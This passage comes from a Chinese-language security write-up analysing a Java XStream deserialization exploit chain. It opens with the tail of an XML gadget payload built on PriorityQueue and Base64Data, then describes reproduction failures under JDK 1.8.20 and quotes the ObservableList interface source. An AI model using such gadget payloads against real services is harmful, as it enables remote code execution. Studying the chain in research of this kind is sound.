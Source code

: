 ```
                  <initialized>true</initialized>
                  <pdcache/>
                </processorCL>
              </iterator>
              <type>KEYS</type>
            </e>
            <in class='java.io.ByteArrayInputStream'>
              <buf></buf>
              <pos>-2147483648</pos>
              <mark>0</mark>
              <count>0</count>
            </in>
          </is>
          <consumed>false</consumed>
        </dataSource>
        <transferFlavors/>
      </dataHandler>
      <dataLen>0</dataLen>
    </com.sun.xml.internal.bind.v2.runtime.unmarshaller.Base64Data>
    <com.sun.xml.internal.bind.v2.runtime.unmarshaller.Base64Data reference='../com.sun.xml.internal.bind.v2.runtime.unmarshaller.Base64Data'/>
  </java.util.PriorityQueue>
</java.util.PriorityQueue>
```

可以看到这个漏洞的利用链就和之前两个大不相同了，并且在分析该漏洞的时候也踩了一些坑，在这里也和大家详细说明一下

这里我先用jdk 1.8.20版本来复现这个漏洞，然而执行的时候却返回以下错误

![](https://images.seebug.org/content/images/2021/04/06/1617677142000-18.png-w331s)

一开始没太明白这里是出了什么问题 先是跟着报错信息中提示的路径去看了一下，发现是在反序列化PriorityQueue的comparator属性的时候出现了问题。

![](https://images.seebug.org/content/images/2021/04/06/1617677142000-19.png-w331s)

经过一段跟踪调试，跟踪到类加载的地方发现根本找不到这个ObservableList$1的对象，从这个名字带有$1不难看出，这是一个匿名内部类对象，此时我们先去ObservableList这个类中去查看一下，然后发现ObservableList是一个接口类型，源码如下

```
public interface ObservableList<E> extends List<E>, Observable {

    public void addListener(ListChangeListener<? super E> listener);

    public void removeListener(ListChangeListener<? super E> listener);

    public boolean addAll(E... elements);

    public boolean setAll(E... elements);

    public boolean setAll(Collection<? extends E> col);

    public boolean removeAll(E... elements);

    public boolean retainAll(E... elements);

    public void remove(int from, int to);

    public default FilteredList<E> filtered(Predicate<E> predicate) {
        return new FilteredList<>(this, predicate);
    }

    public default SortedList<E> sorted(Comparator<E> comparator) {
        return new SortedList<>(this, comparator);
    }

```